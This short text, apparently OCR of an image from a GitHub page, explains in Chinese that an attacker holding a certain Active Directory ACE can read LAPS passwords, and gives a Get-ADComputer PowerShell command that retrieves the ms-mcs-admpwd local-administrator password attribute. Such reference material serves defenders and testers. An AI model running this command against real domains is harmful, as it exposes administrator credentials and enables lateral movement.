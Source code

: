 	攻击者可以读取此 ACE 应用到的计算机帐户的 LAPS 密码。这可以通过 Active Directory PowerShell 模块来实现。
	>Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'